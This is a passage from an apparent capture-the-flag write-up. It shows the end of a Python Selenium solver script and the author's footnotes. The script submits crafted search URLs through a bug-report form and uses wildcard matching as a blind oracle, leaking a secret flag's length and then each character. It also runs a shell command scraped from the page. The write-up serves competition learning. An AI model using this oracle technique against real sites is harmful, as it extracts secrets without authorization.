 ```py
        report_bug_button.click()

        # Proof of work
        pow_cmd = driver.find_element_by_tag_name('strong').get_attribute('textContent').split('&&')[-1].strip()
        proof = subprocess.check_output(pow_cmd, shell=True).decode()

        # Make the payload
        payload = urljoin(BASE_URL, f'/search?q={prop}&download=')

        # Submit the payload
        driver.find_element_by_css_selector('input[name=url]').send_keys(payload)
        driver.find_element_by_css_selector('input[name=proof]').send_keys(proof)
        driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(4) > p > button').submit()

        # Check the result
        flash_message_el = driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(6)')
        truth = flash_message_el.get_attribute('textContent').strip() == 'ng'

        return prop, truth

    except Exception as e:
        return prop, False

    finally:
        driver.close()

def backup(revealed_flag: str):
    with open('flag.bak', mode='w') as f:
        f.write(revealed_flag)

if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=8) as executor:
        upper_bound = 50
        props = [length_is(i) for i in range(1, upper_bound + 1)]
        secret_length = [v[0].count('_') for i, v in enumerate(list(executor.map(prop_holds, props))) if v[1]].pop()

    print(f'\r[+] secret_length: {secret_length}\033[0K')

    secret = ''
    for i in range(1, secret_length + 1):
        with ThreadPoolExecutor(max_workers=4) as executor:
            props = [nth_char_is(i, c) for c in S]
            possible_chars = [v for v in executor.map(prop_holds, props) if v[1]]
            if len(possible_chars) == 1:
                secret += possible_chars.pop()[0].lstrip(f'{FLAG_PRE}{"_" * (i - 1)}').rstrip(f'%{FLAG_SUF}')
            else:
                secret += '?'

            print(f'\r[+] ~N={i} => {secret}\033[0K')
            backup(f'{FLAG_PRE}{secret}')

    print(f'[*] flag: {FLAG_PRE}{secret}{FLAG_SUF}')

```


[^1]: I solved this with my teammate [@y0d3n](https://twitter.com/y0d3n).
[^2]: I feel that there is a relatively good way to put out a simple Writeup for the time being and give a detailed explanation at the review's timing.
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: I didn't investigate if we could issue other method requests because it was enough to get the flag if there was a GET request.
[^5]: After being forwarded, it may be normalized using `app.main.LanguageNomarize (request)`.
[^6]: `%` is a wildcard that represents a string of 0 or more characters
[^7]: Actually, the manual leak by teammate [@y0d3n](https://twitter.com/y0d3n) was faster, but from a privacy point of view, instead of his face photo, The Solver script by Python is posted.